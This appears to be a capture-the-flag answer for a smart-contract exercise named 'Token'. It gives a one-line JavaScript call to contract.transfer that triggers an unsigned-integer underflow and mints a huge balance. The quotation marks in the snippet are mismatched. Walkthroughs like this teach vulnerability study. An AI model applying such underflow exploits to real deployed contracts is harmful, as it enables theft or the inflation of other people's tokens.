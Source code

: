 # Token

<details>
<summary>Answer</summary>
<p>

```js
await contract.transfer('Random_Address,'21')
```
Because the balance is an unit(always positive) you can underflow the transfer function logic and create a large amount of tokens<br></br>
Then click Submit
</p>
</details>

